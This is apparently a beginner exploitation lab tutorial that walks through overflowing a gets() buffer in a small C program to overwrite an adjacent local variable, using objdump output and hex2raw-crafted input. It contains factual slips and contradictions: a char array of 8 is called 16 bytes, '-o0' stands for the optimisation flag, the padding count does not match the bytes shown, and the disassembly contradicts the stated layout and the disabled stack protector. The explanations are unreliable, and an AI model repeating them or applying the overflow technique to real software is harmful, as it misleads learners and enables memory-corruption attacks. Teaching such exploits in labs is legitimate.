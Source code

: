 # Stack Overflow Level 1

> After the introductory level, you can start your first real hacking now. We will introduce you how to sneakily modify a variable's value which is in the same function with buffer. Ready?

## Goals
1. Use tools to figure out the target program's structure
2. Figure out a proper length of string and use `hex2raw` to compose a input string
3. Modify the neighboring value 

## Be familiar with tools
Here is the code of `example.c`:

    // example.c
    #include <stdio.h>
    #define BUF_SIZE 8

    int readBuf(){
      int a = 0;
      char buf[BUF_SIZE];
      gets(buf);
      return a;
    }

    void test(){
      int ret = readBuf();
      if(ret == 0)
        printf("Value is normal :(\n");
      else
        printf("You modified the value into: %d\n", ret);
    }

    int main(){
      test();
      return 0;
    }


We use `gcc` to compile the program `example.c`. In order to simplify the exploiting process, we will use the least optimization, i.e. `-o0`. And, to prevent the stack smashing protection by `gcc`, we will add a option `fno-stack-protector` as well.

So, `gcc example.c -o0 -fno-stack-protector -o example`. And we got it.

Next, we will learn about `objdump`. Do `objdump -d example | less` to see the disassembled result. Find the "important" functions: `main`, `test` and `readBuf`, esp. `readBuf`:

    000000000040062d <readBuf>:
      40062d:       55                      push   %rbp
      40062e:       48 89 e5                mov    %rsp,%rbp
      400631:       48 83 ec 30             sub    $0x30,%rsp
      400635:       64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
      40063c:       00 00 
      40063e:       48 89 45 f8             mov    %rax,-0x8(%rbp)
      400642:       31 c0                   xor    %eax,%eax
      400644:       c7 45 dc 00 00 00 00    movl   $0x0,-0x24(%rbp)
      40064b:       48 8d 45 e0             lea    -0x20(%rbp),%rax
      40064f:       48 89 c7                mov    %rax,%rdi
      400652:       e8 d9 fe ff ff          callq  400530 <gets@plt>
      400657:       8b 45 dc                mov    -0x24(%rbp),%eax
      40065a:       48 8b 55 f8             mov    -0x8(%rbp),%rdx
      40065e:       64 48 33 14 25 28 00    xor    %fs:0x28,%rdx
      400665:       00 00 
      400667:       74 05                   je     40066e <readBuf+0x41>
      400669:       e8 82 fe ff ff          callq  4004f0 <__stack_chk_fail@plt>
      40066e:       c9                      leaveq 
      40066f:       c3                      retq   


So, apparently, the local variables in `readBuf` occupy `0x20` or 32 bytes. This is due to a `int` which is 4 bytes long, and 8 `char` which is 16 bytes longs. So, we needs at least 20 bytes. But on my 64-bit machine, it do a 16-bytes align. So, we needs align it to 32 bytes, i.e. `0x20`

## Compose the string
Based on the previous knowledge, the string will first have a 20-byte long paddings, then fellowing a `int`. And the endian problem plays here. Whatever, We just need to do some experiment to find the truth. For example, we add `00 00 00 01` and get `string`:

    FF FF FF FF 
    FF FF FF FF
    FF FF FF FF
    00 01 00 00

Then, we use `hex2raw` to convert the heximal string into a ascii string file `hex_str`, which could be read by `gets` correctly: `./hex2raw < string > hex_str`

Then, we run the program: `./example < hex_str`

The output is not 1, but 256, which is `0x00000100` in fact.

So, we can do a reverse, using `string` as:

    FF FF FF FF
    FF FF FF FF
    FF FF FF FF
    01 00 00 00

Then we will get output: 1

Do you have some conclusion?

In fact, this is a little surprise. There seems to be some space between the 16 bytes long `char[]` and 4 bytes long `int`. So, practice speaks.